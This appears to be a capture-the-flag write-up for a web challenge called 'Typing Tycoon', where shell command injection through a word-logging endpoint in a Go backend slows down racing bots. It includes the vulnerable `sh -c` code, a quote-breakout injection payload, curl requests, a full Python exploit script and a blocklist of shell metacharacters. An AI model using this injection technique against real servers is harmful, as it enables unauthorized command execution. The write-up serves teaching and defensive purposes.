




# Typing Tycoon -- Writeup

**Category:** Web Exploitation  
**Flag:** `apoorvctf{typ1ng_f4st3r_th4n_sh3ll_1nj3ct10n}`

---

## Overview

Typing Tycoon is a TypeRacer-style web application where the player races against three AI bots (Marc, Pecco, Fabio) by typing a 120-word passage. The frontend is a Next.js app and the backend is a Go HTTP server. Under normal conditions, the bots are tuned to always outpace the player, making it impossible to win legitimately. The intended solution requires discovering and exploiting an OS command injection vulnerability in the backend's word logging mechanism to neuter the bot speed multiplier.

---

## Reconnaissance

### Application Structure

Starting the race (POST `/api/v1/race/start`) returns:
- A `race_id` (session identifier)
- A JWT `token` (with claims including a `speed_boost` field)
- The 120-word text to type
- A `bot_multiplier` value (default `1.25`)
- Bot names and colors

Each typed word is submitted via POST `/api/v1/race/sync` with the `race_id`, the typed `word`, progress, and WPM. The server responds with updated bot positions and race state.

### Why Winning Legitimately is Impossible

Bot progress is computed server-side as:

```
bot_position[i] = user_progress * multiplier * bot_speed[i]
```

With the default multiplier of `1.25` and bot speeds of `[0.95, 0.88, 0.82]`, the fastest bot (Marc) moves at `1.25 * 0.95 = 1.1875x` the user's progress. Marc always reaches 100% before the user does, triggering a defeat.

<!-- [IMAGE: Screenshot of a normal race ending in defeat with the bots ahead of the player] -->


---

## Identifying the Red Herrings

The challenge includes several deliberate rabbit holes designed to waste time:

### 1. SQL Injection on `/api/v1/stats`

The stats page (`/api/v1/stats?id=1`) is linked from the footer. Attempting SQL injection on the `id` parameter returns realistic-looking SQLite error messages:

```
Internal Server Error: near line 1: unrecognized token: "1' OR 1=1--"
SQLite error: incomplete input (SQLITE_ERROR)
Statement: SELECT * FROM leaderboard WHERE id = '1' OR 1=1--'
```

This is entirely faked. The backend string-matches for injection keywords (`UNION`, `SELECT`, `OR`, `'`, `"`, `;`, `--`) and returns a hardcoded error template. There is no database -- the stats are a static map.

### 2. JWT `speed_boost` Claim

The JWT issued on race start contains a `speed_boost: false` claim. This looks like it should be tampered with. However, the backend explicitly ignores all JWT claims during sync:

```go
validateJWT(parts[1]) // validate signature, ignore claims
```

Forging the JWT accomplishes nothing.

### 3. Client-Side Progress Spoofing

The frontend sends `progress` in the sync payload, but the server computes its own progress from an internal `WordIndex` counter:

```go
state.UserProgress = float64(state.WordIndex) / float64(len(state.Words))
```

Sending `"progress": 1.0` in the request body is silently overridden.

---

## Finding the Vulnerability

### The Audit Logger

In the `handleRaceSync` handler, every typed word is logged using a shell command:

```go
// DEBUG AUDIT LOGGER - DO NOT REMOVE
// Logs every typed word for analytics pipeline
cmd := exec.Command("sh", "-c", "echo '"+input.Word+"' >> "+auditLog)
cmd.Run()
```

The user-supplied `input.Word` is concatenated directly into a `sh -c` command string with no sanitization. The resulting shell command is:

```bash
echo '<USER_INPUT>' >> /tmp/word_audit.log
```

This is a textbook OS command injection.

### The Frontend Filter (Client-Side Only)

The frontend blocks shell metacharacters from being typed:

```javascript
const BLOCKED_CHARS = [';', '&', '|', '$', '>', '<', '`', "'", '"', '(', ')', '{', '}', '\\', '!', '#'];
```

The comment references a fake ticket `SR-2847`, adding a layer of plausibility. However, this filter only exists in the JavaScript client. Direct HTTP requests to the backend bypass it entirely.

### The Response Header Hint

The sync endpoint returns an `X-Trace: pipe/word-logger` header, hinting at a pipeline/logging mechanism processing the word input.

<!-- [IMAGE: Screenshot of browser dev tools or Burp showing the X-Trace response header on a /api/v1/race/sync response] -->


---

## Exploitation

### Goal

Overwrite `/tmp/bot_multiplier.conf` (which controls bot speed) with a near-zero value so the bots crawl while the user types to 100%.

### Crafting the Payload

The shell command template is:

```bash
echo '<WORD>' >> /tmp/word_audit.log
```

Injecting the following as the `word` value:

```
' ; echo 0.01 > /tmp/bot_multiplier.conf ; echo '
```

Results in the shell executing:

```bash
echo '' ; echo 0.01 > /tmp/bot_multiplier.conf ; echo '' >> /tmp/word_audit.log
```

This breaks out of the single-quoted echo, writes `0.01` to the multiplier config file, and cleanly closes the syntax. After this, the bot speed calculation becomes:

```
Marc: user_progress * 0.01 * 0.95 = user_progress * 0.0095
```

The bots now move at less than 1% of the user's speed.

### Step-by-Step Exploit

**Step 1: Start a race**

```bash
curl -s -X POST http://<TARGET>/api/v1/race/start | jq .
```

Save the `race_id`, `token`, and `text` from the response.

<!-- [IMAGE: Screenshot of the curl output showing race_id, token, and text fields] -->



**Step 2: Inject the command to neuter bot speed**

Send a sync request with the OS command injection payload. This counts as typing one word and also overwrites the multiplier:

```bash
curl -s -X POST http://<TARGET>/api/v1/race/sync \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <TOKEN>" \
  -d '{
    "race_id": "<RACE_ID>",
    "word": "'"'"' ; echo 0.01 > /tmp/bot_multiplier.conf ; echo '"'"'",
    "progress": 0,
    "wpm": 50
  }'
```

> **Note on shell escaping:** When using curl from a shell, the single quotes in the payload must be escaped. In the JSON body, the `word` value should be literally: `' ; echo 0.01 > /tmp/bot_multiplier.conf ; echo '`

Alternatively, use a Python script or Burp Suite to avoid shell escaping issues.

**Step 3: Type all remaining words**

The race text has 120 words. One word was consumed by the injection request. Send the remaining 119 words as sync requests. Each request must include a valid `word` field (it does not need to match the expected word -- any non-empty string increments `WordIndex`):


**Step 4: Capture the flag**

When `user_progress` reaches `1.0` while bot progress is still far below `1.0`, the server returns:

```json
{
  "status": "victory",
  "message": "You won the race!",
  "flag": "apoorvctf{typ1ng_f4st3r_th4n_sh3ll_1nj3ct10n}"
}
```

<!-- [IMAGE: Screenshot of the final response showing the victory status and flag] -->


---

## Full Automated Exploit Script

```python
import requests

TARGET = "http://<TARGET>"

r = requests.post(f"{TARGET}/api/v1/race/start")
race = r.json()
race_id = race["race_id"]
token = race["token"]
print(f"Race started: {race_id}")

headers = {
    "Content-Type": "application/json",
    "Authorization": f"Bearer {token}"
}

payload = {
    "race_id": race_id,
    "word": "' ; echo 0.01 > /tmp/bot_multiplier.conf ; echo '",
    "progress": 0,
    "wpm": 100
}
r = requests.post(f"{TARGET}/api/v1/race/sync", json=payload, headers=headers)
print(f"Injection sent: {r.json().get('status')}")

for i in range(119):
    payload = {
        "race_id": race_id,
        "word": "word",
        "progress": 0,
        "wpm": 100
    }
    r = requests.post(f"{TARGET}/api/v1/race/sync", json=payload, headers=headers)
    data = r.json()
    status = data.get("status")
    if status == "victory":
        print(f"\n[+] FLAG: {data['flag']}")
        break
    elif status in ("defeat", "timeout"):
        print(f"\n[-] Lost: {data['message']}")
        break
```

---

## Summary

| Aspect | Detail |
|---|---|
| **Vulnerability** | OS Command Injection via unsanitized shell command in audit logger |
| **Location** | `POST /api/v1/race/sync` -- the `word` field |
| **Root Cause** | User input concatenated into `sh -c` call without escaping |
| **Impact** | Arbitrary command execution on the backend container |
| **Exploit** | Overwrite `/tmp/bot_multiplier.conf` to reduce bot speed, then finish the race |
| **Bypass Required** | Client-side character filter (trivially bypassed via direct HTTP requests) |
| **Red Herrings** | Fake SQLi on `/api/v1/stats`, JWT `speed_boost` decoy, client-side progress field |

---

## Key Takeaways

1. **Client-side validation is not security.** The frontend character blocklist prevented injection from the browser, but direct API calls bypass it entirely.
2. **Never pass user input to shell commands.** The `exec.Command("sh", "-c", ...)` pattern with string concatenation is inherently dangerous. Use parameterized commands or avoid shell invocation altogether.
3. **Misdirection is powerful in CTFs.** The fake SQL injection errors and JWT decoy can consume significant time if not recognized early. Always verify assumptions by reading the actual behavior, not just error messages.
